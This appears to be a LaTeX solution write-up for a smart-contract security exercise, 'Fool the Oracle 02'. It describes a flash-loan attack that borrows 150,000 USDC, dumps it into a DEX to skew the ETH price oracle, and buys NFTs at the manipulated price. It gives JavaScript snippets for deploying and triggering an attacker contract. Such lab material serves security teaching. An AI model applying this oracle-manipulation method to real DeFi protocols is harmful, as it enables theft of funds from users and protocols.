 \documentclass[12pt]{article}
\begin{document}
\section*{Solution to Task 2: Fool the Oracle 02}
In Task 2, the DEX has significantly more liquidity (100 ETH and 200,000 USDC), making direct price manipulation much more difficult with our limited funds. Instead, we utilize flash loans to borrow a large amount of USDC, manipulate the price, purchase the NFTs, and repay the loan—all in a single atomic transaction.
The solution involves creating a specialized attack contract (FlashLoanNFTAttacker) that implements the flash loan logic and NFT purchasing in its callback function. The key steps are:

\begin{enumerate}
\item Deploy the attacker contract with references to all necessary contracts:
\begin{verbatim}
const FlashLoanNFTAttacker = 
await ethers.getContractFactory("FlashLoanNFTAttacker", player);
const attacker = await FlashLoanNFTAttacker.deploy(
flashLoanProvider.target,
usdcToken.target,
simpleDEX.target,
nftMarketplace.target,
studentNFT.target
);
\end{verbatim}

\item Send some ETH to the attacker contract to help cover costs of flashloan:
\begin{verbatim}
const ethToKeep = ethers.parseEther("1.6");
const ethToSend = PLAYER_INITIAL_ETH - ethToKeep;
await player.sendTransaction({
    to: attacker.target,
    value: ethToSend
});
\end{verbatim}

\item Execute the flash loan attack, borrowing 150,000 USDC:
\begin{verbatim}
const borrowAmount = ethers.parseEther("150000"); // 150,000 USDC
await attacker.executeAttack(borrowAmount, { value: estimatedEthNeeded });
\end{verbatim}
\end{enumerate}
Inside the attacker contract (FlashLoanNFTAttacker.sol), the \texttt{onFlashLoan} callback:
\begin{enumerate}
\item Dumps the borrowed USDC into the DEX to manipulate the price (ETH becomes more expensive)
\item Buys the target NFTs at the manipulated (lower) ETH prices
\item Transfers the NFTs to the player
\item Converts remaining ETH back to USDC
\item Repays the flash loan with interest
\end{enumerate}
\end{document}
